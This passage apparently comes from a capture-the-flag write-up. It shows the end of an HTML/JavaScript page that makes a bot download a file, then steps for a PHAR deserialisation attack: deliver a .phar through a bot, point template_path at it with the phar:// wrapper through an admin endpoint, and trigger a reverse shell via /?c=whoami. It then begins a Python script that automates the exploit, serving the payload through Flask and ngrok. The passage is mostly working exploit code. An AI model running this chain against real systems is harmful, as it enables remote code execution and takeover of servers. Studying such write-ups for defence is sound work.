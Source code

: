 ```html
        xhr.onload = function() {
          var arrayBuffer = xhr.response;
          var byteArray = new Uint8Array(arrayBuffer);

          console.log((new Date().toString()) + ' : byteArray length > 30M, actually ' + byteArray.length + ' bytes. Saving locally...');
            const blob = new Blob([byteArray], {
              type: 'application/octet-stream'
            });
            saveAs(blob, fileNameOfFileSaver);

            byteArray = (new TextEncoder()).encode(
              'ExecuteAsyncScript Successfully, File Saved to |' + fileNameOfFileSaver + '| (' + byteArray.length + ' bytes)'
            );

          callback(byteArray);
        };

        xhr.send();
      };

      document.head.appendChild(script);
    });
  </script>
</body>
</html>
```
>Credit to `Cong Yang` from this [StackOverflow](https://stackoverflow.com/a/78749761). I just removed the size check from the original.

Send this page to the bot via `/api/claimQuest`. Once the `.phar` file is downloaded, use `/api/admin/appSettings` to update template_path with the `phar://` wrapper and trigger the reverse shell via `/?c=whoami`.

Here’s the full Python script that runs a local Flask server, starts ngrok, handles the `.phar`, and automates the whole exploit:
```python
import subprocess
import requests
import time
import sys
import argparse
import os
import threading

from flask import Flask, send_file, Response

app = Flask(__name__)

PORT = 5000

TARGET_URL = ""
PHAR_FILE = "./poc.phar"
CMD = ""

NGROK_PROCESS = None
NGROK_PUBLIC_URL = None

PHAR_DOWNLOADED = False

@app.route(f'/phar')
def serve_phar():
    print('[+] Bot requested the PHAR file.')
```